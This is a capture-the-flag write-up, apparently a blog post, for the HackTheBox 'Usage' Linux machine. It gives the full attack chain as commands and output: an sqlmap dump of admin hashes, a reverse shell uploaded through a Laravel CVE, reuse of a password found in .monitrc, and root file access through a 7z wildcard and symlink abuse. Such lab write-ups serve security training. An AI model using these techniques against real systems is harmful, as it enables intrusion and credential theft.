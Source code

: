 ```yaml
---
layout: post
title: "HTB Linux Easy: Usage"
description: "Usage is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
![Pasted image 20240715112111.png](/images/Pasted image 20240715112111.png){: .normal }

Modify hosts file.
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.10.11.18 usage.htb
```


## Enumerate HTTP (Port 80)
Landing page.
![Pasted image 20240715112105.png](/images/Pasted image 20240715112105.png){: .normal }

Found admin panel, add to hosts file.
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.10.11.18 usage.htb admin.usage.htb
```

We can intercept the forgot password request and test it for sql injection using sqlmap. Using the following sqlmap command we are able to exfiltrate the admin hash.
```bash
┌──(kali㉿kali)-[~]
└─$ sqlmap -r req.req --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump --threads 10
```
![Pasted image 20240715112059.png](/images/Pasted image 20240715112059.png){: .normal }

When we crack the hash we find the password of `whatever1`, now login to the admin panel.
![Pasted image 20240715112052.png](/images/Pasted image 20240715112052.png){: .normal }

We find the following [CVE](https://flyd.uk/post/cve-2023-24249/) for laravel 1.8.18. Uploading the php reverse shell with a .jpg extension and adding the .php extension gives us a reverse shell connection.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.18] 44592
Linux usage 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 11:59:39 up  5:20,  2 users,  load average: 2.58, 2.03, 1.93
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(dash) gid=1000(dash) groups=1000(dash)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(dash) gid=1000(dash) groups=1000(dash)
```

User flag: `20aaddc99bacbd411493970f734987a2`
```bash
dash@usage:~$ cat user.txt 
20aaddc99bacbd411493970f734987a2
```


## Lateral movement
In the .monitrc file located in the home directory of the dash user we find a password.
```bash
dash@usage:~$ cat .monitrc
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd
```

Use the password to switch to the xander user.
```bash
dash@usage:~$ su xander
Password: 
xander@usage:/home/dash$ id
uid=1001(xander) gid=1001(xander) groups=1001(xander)
```


## Privilege Escalation
Sudo -l output.
```bash
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

Running strings against the binary reveals that 7z is being ran with a wildcard.
```bash
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
```

We realize that 7z is being used to compress all the files located in the /var/www/html directory, since a wildcard is being used at the end, we can abuse it by using a symbolic link.
```bash
xander@usage:/var/www/html$ touch @root.txt
xander@usage:/var/www/html$ ln -s -r /root/root.txt root.txt
ln: failed to create symbolic link 'root.txt': File exists
```

Root flag: `a259d3650bd9a38a62842403237ae397`
```bash
xander@usage:/var/www/html$ sudo /usr/bin/usage_management 
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7302P 16-Core Processor                (830F10),ASM,AES-NI)

Open archive: /var/backups/project.zip
--       
Path = /var/backups/project.zip
Type = zip
Physical Size = 54962587

Scanning the drive:
          
WARNING: No more files
a259d3650bd9a38a62842403237ae397
```

## PWNED!!!
![Pasted image 20240715112022.png](/images/Pasted image 20240715112022.png){: .normal }